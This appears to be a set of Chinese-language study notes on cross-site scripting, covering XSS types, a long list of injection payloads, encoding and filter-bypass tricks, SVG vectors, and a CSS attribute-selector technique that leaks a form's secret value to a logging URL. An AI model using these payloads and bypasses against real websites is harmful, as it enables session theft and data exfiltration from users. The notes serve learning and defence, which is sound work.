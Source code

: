 ### 基本原理

#### 简介

> XSS在我看来是较为简单的漏洞，这是因为：一.它涉及的语言少，核心是Javascript，需要了解HTML、CSS（有时需了解不同浏览器的特性），后端语言和框架则不用在意，只需要关注其防护方式即可；二.类型少，只有反射性、存储型和DOM型三种；三.防御起来较为简单，只要注意对所有输出采用HTML实体编码，基本上很难产生XSS漏洞。
> 
> 虽然XSS较为简单，但其攻击方式的多样，使得其危害不小，以前听闻很多厂商都不收XSS的洞，这是我不敢苟同的。
> 
> 这里关于XSS的三种类型，之来区分一下反射型和DOM。有人说大多数DOM属于反射型，反射型很直观的特点是，在存在漏洞的地方写入JavaScript脚本后，脚本经过后端不严格的过滤又回到前端执行，对于攻击者来说，他需要构造好一个URL给被攻击者。而DOM型与此极其类似，不同的是，DOM型写的Javascript攻击脚本不会被发送到后端，因为有些场景是前端的JavaScript对输入进行操作（要非常注意innerHTML），而无需发送到后端，这个时候，如果处理输入的JavaScript没有进行严格过滤，攻击者同样可以构造恶意脚本。

#### XSS与CSRF

> XSS和CSRF有一些类似的地方，XSS的反射型和DOM漏洞都依赖于被害人点击攻击者精心构造的链接，CSRF也是这样，不同的是CSRF攻击的方式更为直接了，它无需构造什么Javascript攻击脚本，它构造的链接是目标网站本就有的功能，例如删除某一篇文章，当被害人点击这个url且浏览器本地有尚未过期的cookie时，攻击就完成了。检查CSRF是否存在的方式也很简单，只需要看referer字段是否存在并有效即可，另外，网站为了防御CSRF的攻击，也经常采用提示跳转页的方式。

### 攻击和防御

#### 攻击的两大方式

##### 构造标签内属性

```javascript
<input type="keyword" value="attack">
```

> 假设我们在某处的输入会放在上面的value中，此时，我们可以通过构造类似下面的啊脚本完成攻击

```javascript
// 我们输入了"onclick=alert()"，闭合前面属性的值，然后后面添加了一个可以执行JavaScript脚本的属性
// 这里的onclick可以替换成许多响应事件的函数
<input type="keyword" value=""onclick=alert()"">
```

##### 构造标签

```javascript
<input type="keyword" value="attack">
```

> 与上面相同的

```javascript
// "><script>alert()</scr11ipt><"是我们输入的内容
<input type="keyword" value=""><script>alert()</script><"">
```

> 除了最直接的script标签，还有许多标签可以利用

```javascript
<a href="javascript:alert(1)">test</a>
<a href="x" onfocus="alert('xss');" autofocus="">xss</a>
<a href="x" onclick=eval("alert('xss');")>xss</a>
<a href="x" onmouseover="alert('xss');">xss</a>
<a href="x" onmouseout="alert('xss');">xss</a>

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<img src=x onerror="alert(1)">
<img src=x onerror=eval("alert(1)")>
<img src=1 onmouseover="alert('xss');">
<img src=1 onmouseout="alert('xss');">
<img src=1 onclick="alert('xss');">

<svg onload=javascript:alert(1)>
<svg onload="alert('xss');"></svg>

<button onclick=alert(1)>
<button onfocus="alert('xss');" autofocus="">xss</button>
<button onclick="alert('xss');">xss</button>
<button onmouseover="alert('xss');">xss</button>
<button onmouseout="alert('xss');">xss</button>
<button onmouseup="alert('xss');">xss</button>
<button onmousedown="alert('xss');"></button>

<div onmouseover='alert(1)'>DIV</div>
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgveHNzLyk8L3NjcmlwdD4="></object>

<script>alert('xss')</script>
<script>alert(/xss/)</script>
<script>alert(123)</script>

<p onclick="alert('xss');">xss</p>
<p onmouseover="alert('xss');">xss</p>
<p onmouseout="alert('xss');">xss</p>
<p onmouseup="alert('xss');">xss</p>

<input onclick="alert('xss');">
<input onfocus="alert('xss');">
<input onfocus="alert('xss');" autofocus="">
<input onmouseover="alert('xss');">
<input type="text" onkeydown="alert('xss');"></input>
<input type="text" onkeypress="alert('xss');"></input>
<input type="text" onkeydown="alert('xss');"></input>

<details ontoggle="alert('xss');"></details>
<details ontoggle="alert('xss');" open=""></details>

<select onfocus="alert('xss');" autofocus></select>
<select onmouseover="alert('xss');"></select>
<select onclick=eval("alert('xss');")></select>

<form method="x" action="x" onmouseover="alert('xss');"><input type=submit></form>
<form method="x" action="x" onmouseout="alert('xss');"><input type=submit></form>
<form method="x" action="x" onmouseup="alert('xss');"><input type=submit></form>

<body onload="alert('xss');"></body>
```

#### 补充：有关JavaScript伪协议

> 例如onclick="myFunc()"这样的事件可以执行JavaScript，它也支持onclick="javascript:alert();"这种伪协议的写法，在浏览器打开javascript：URL的时候，它会将url当作JavaScript代码运行，当返回值不为undefined的时候，=前的属性将会被赋值为JavaScript的执行结果。
> 
> src、href等属性的合法内容除了是url外，还可以直接跟内容，例如\<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">\</a>，JavaScript伪协议的最后一条语句执行产生的字符串将被视为数据内容。
> 
> 注意“当返回值不为undefined的时候”，url可以是用分号分割的多条JavaScript语句，这意味着当我们希望攻击更隐蔽的发生时，可以采用href=" javascript:window.open("about:blank");void 0;"这样的写法，最后的void 0 将会使前面的JavaScript代码无法改变当前页面的dom元素。
> 
> 支持JavaScript伪协议的有src、href等可以加载链接的属性，也有例如onclick、onload这样的事件

##### \<a href="" target="\_blank">中的target="\_blank"限制JavaScript伪协议的作用

target="\_blank"属性是表明按照href的链接打开一个新窗口，当href的内容为JavaScript伪协议时，其不会生效

#### 补充：编码

##### 浏览器解码顺序

> 浏览器–>`HTML解码-->URL解码-->JavaScript解码`
> 
> [XSS_伪协议与编码绕过_伪协议加编码 s_南部余额的博客-CSDN博客](https://blog.csdn.net/qq_33181292/article/details/117251090)

##### html实体编码

> HTML实体编码有三种写法，实体名称\&lt; 十进制实体编码\&#60; 十六进制实体编码\&#x003c。HTML实体编码可以用于编辑“数据状态中的字符引用”、“属性值状态中的字符引用” 和 “RCDATA状态中的字符引用” 

* 数据状态中的字符引用：数据状态就是解析一个标签内里面的内容，如 `<div>...</div>` 中的内容
* 属性值状态中的字符引用：属性值状态中的字符引用就好理解了，就是src，herf这样的属性值中的HTML实体，他也是会先进行HTML解码的，比如下面的语句，会先对里面HTML解码，然后再继续往下执行

```html
<a href=&#x6A;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3A;&#x61;&#x6C;&#x65;&#x72;&#x74;&#x28;&#x22;&#x78;&#x73;&#x73;&#x22;&#x29;>test</a>
```

* RCDATA状态中的字符引用:HTML中有五类元素
  
  * 空元素(Void elements)，如 `<area>`、`<br>`、`<base>` 等等。空元素不能容纳任何内容，因为它们没有闭合标签，没有内容能够放在开始标签和闭合标签中间。
  
  * 原始文本元素(Raw text elements)，有 `<script>` 和 `<style>`。原始文本元素可以容纳文本。
  
  * RCDATA元素(RCDATA elements)，有 `<textarea>` 和 `<title>`。RCDATA元素可以容纳文本和字符引用。

> 注意到注意到RCDATA元素中有\<textarea\> 和 \<title\> 两个属性并且有字符引用，也就是当实体字符出现在这两个标签里面的时候，实体字符会被识别并进行HTML编码解析。这里要再提醒一次，在解析这些字符引用的过程中不会进入“标签开始状态”，所以就不会建立新的标签，所以下面这个语句触发不了XSS，这涉及到了RCDATA的一个特殊的情况。即在浏览器解析RCDATA元素的过程中，解析器会进入“RCDATA状态”。在这个状态中，如果遇到“<”字符，它会转换到“RCDATA小于号状态”。如果“<”字符后没有紧跟着“/”和对应的标签名，解析器会转换回“RCDATA状态”，并不会进入“标签开始状态”的。**这意味着在RCDATA元素标签的内容中，唯一能够被解析器认做是标签的就只有 \</textarea\> 或者 \</title\>**，因此，在 <textarea> 和 <title> 的内容中不会创建标签，就不会有脚本能够执行了。另外，刚刚也谈到了，**`<script>` 和 `<style>`是原始文本元素，在这两个标签内部的内容只有文本，因此，html实体编码在这里无效**。

![image-20230906170541489](.\images\image-20230906170541489.png)

![image-20230906170634555](.\images\image-20230906170634555.png)

![image-20230906170658759](.\images\image-20230906170658759.png)

​    仅有\<p\>...\</p\>内的JavaScript执行

* 总结：利用html实体编码进行绕过执行JavaScript只有在编码支持JavaScript伪协议的属性的属性值时有用，在其他地方试图使用JavaScript实体编码编码\<\> 属性值 标签名等是达不到效果的。虽然上面提到了用html实体编码编码\<script\>标签内的JavaScript代码也是不生效的，但是我们可以利用\<svg\>标签达成我们的目的，这一点后面再说。

##### JavaScript编码

见链接

##### base64编码

```javascript
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>
<!--base64加密：PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg 解码：<script>alert(1)</script>-->
<a href="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg==">test</a>
<iframe src="data:text/html;base64, PGltZyBzcmM9eCBvbmVycm9yPWFsZXJ0KDEpPg=="></iframe>
```

##### 多层编码

见链接

#### 补充：注释

HTML注释：

```html
<!--这是单行注释-->
<!--
    这是多行注释
    这是多行注释
    这是多行注释
-->
```

```css
/*这是单行注释*/

/*
    这是多行注释
    这是多行注释
    这是多行注释
*/
```

```javascript
//这是单行注释
/*
    这是多行注释
    这是多行注释
    这是多行注释
*/

// 这是李输入了</address> <img src=# onerror=alert(1)//，起到了闭合前文引号的同时注释后面的引号
<img src="</address> <img src=# onerror=alert(1)//">
```

> 注释的使用：html注释常常用来闭合标签；JavaScript的注释可以在在一些不和闭合引号的地方将其注释

#### 过滤和绕过

##### 关键字过滤

* 大小写绕过
* 双写绕过
* 编码绕过
* 回车、tab、空格、注释、括号等分割引号或者script标签内的**JavaScript语句**

```javascript
/*添加空格、TAB、回车、换行：*/alert%20(/xss/)、alert%0A(/xss/)、alert%0D(/xss/)、alert%09(/xss/)
/*添加多行注释：*/alert/*abcd*/(/xss/)
/*添加注释换行：*/alert//abcd%0A(/xss/)、confirm//abcd%0D(/xss/)
/*使用''代替()：*/alert'xss'
/*使用括号分割：*/(alert)(/xss/)、((alert))(/xss/)
```

注意分割的地方，直接将一个关键字aler%20t分开是不行的，空格符分割涉及到JavaScript的**no LineTerminator here**规则和自动插入分号规则。

##### 关键字变形

* 大小写
* 编码

##### 特殊符号过滤

> 全过滤了肯定无法绕过，针对过滤不完全的情况则有很多方法，主要是有很多字符可以作为替换方案

* 过滤了引号：html可以不用引号；JavaScript可以用反引号
* 过滤了&符号阻止编码：可以使用其他编码
* 过滤了括号：有些JavaScript函数后可以不加括号，或者用 //分割
* 对url进行过滤
  * 过滤http：可以直接用\\\\代替http:\\\
  * 过滤 . :可以用。代替，有些浏览器会自动优化中文句号
* 过滤了空格
  * 使用爱他空白字符代替 %0d %0a

##### 将特殊字符转化为HTML实体

* 以php为例，默认的htmlspecialchars()不过滤单引号，因此使用htmlspecialchars()时需注意合理设置
* 有的场景下，前端输入的返回是在script标签或则JavaScript伪协议内，这时htmlspecialchars()完全无效

#### 利用CSS进行XSS

```css
/* 利用CSS中的 expression() url() regex() 等函数或特性来引入外部的恶意代码 */
/*  很多浏览器都禁用了，貌似仅IE支持 */
/*  */
<div style="background-im-age:url(javascript:alert('xss'))">
<div style="width:exp/*这里可以注释*/ression(alert('xss'));">

/* 产生的新的攻击方式 */
<style>
    #form2 input[value^='a'] { background-image: url(http://localhost/log.php/a); }
    #form2 input[value^='b'] { background-image: url(http://localhost/log.php/b); }
    #form2 input[value^='c'] { background-image: url(http://localhost/log.php/c); }
    [...]
</style>
<form action="http://example.com" id="form2">
    <input type="text" id="secret" name="secret" value="abc">
</form>
```

#### 与SVG有关的XSS

##### SVG标签结合html实体编码绕过

```html
<svg><script>&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x0028;&#x002f;&#x0061;&#x006c;&#x0065;&#x0072;&#x0074;&#x7f16;&#x7801;&#x002f;&#x0029;&#x003b;</script></svg>
```

* 此时\<script\>内的JavaScript支持html实体编码

##### 利用svg文件上传进行XSS

> 代码中的SVG标签和onload事件本身并不依赖于其他特定的标签来触发弹窗。无论它们被放置在哪个标签内，只要浏览器解析并加载了这个SVG标签，onload事件就会被触发。
> 
> SVG标签通常是在HTML文档中嵌入使用的，并且可以放置在许多不同的HTML标签内。具体取决于网页的结构和用途。以下是一些常见的情况：

```html
<body>
  <svg onload="alert(document.domain)">
    <!-- SVG内容 -->
  </svg>
</body>

<div>
  <svg onload="alert(document.domain)">
    <!-- SVG内容 -->
  </svg>
</div>

<img src="data:image/svg+xml,<svg onload='alert(document.domain)'>">

<svg id="rectangle" xmlns="http://www.w3.org/2000/svg"
xmlns:xlink="http://www.w3.org/1999/xlink"
width="100" height="100">
<a xlink:href="javascript:alert(location)">
<rect x="0" y="0" width="100" height="100" />
</a>
</svg>
```

[用SVG绕过浏览器XSS审计 - r00tgrok - 博客园 (cnblogs.com)](https://www.cnblogs.com/r00tgrok/p/SVG_Build_XSS_Vector_Bypass_Firefox_And_Chrome.html)

### 利用

#### 基本方式

> XSS产生在于后端没有对输入的数据进行检查既返回前端，攻击者可构造script脚本进行提交。当使用GET方法提交数据时，可以直接构造型如url?query=<script>给被害人；当使用POST方法提交数据时，则需要我们在自己的服务器上构造一个恶意页面，使用表单的方式提交数据，注意此处我们写入的恶意脚本在哪，我们的恶意脚本并不是在在我们的恶意界面起作用，因为恶意界面由于同源策略等浏览器安全策略，是获得不了被害人在目标站点的cookie的，我们的恶意脚本是作为输入提交到了目标站点。